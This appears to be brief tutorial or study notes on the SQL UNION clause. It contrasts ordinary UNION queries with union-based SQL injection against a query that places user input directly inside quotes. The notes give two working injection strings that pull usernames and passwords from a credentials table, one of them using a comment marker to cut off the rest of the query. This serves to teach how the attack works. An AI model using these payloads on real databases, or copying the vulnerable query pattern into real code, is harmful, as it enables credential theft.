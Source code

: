 ## Union Clause

Normal Union :
SELECT * FROM ports UNION SELECT * FROM ships;
SELECT city FROM ports UNION SELECT * FROM ships;

Attack :
SELECT * FROM products WHERE product_id = 'user_input'
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords

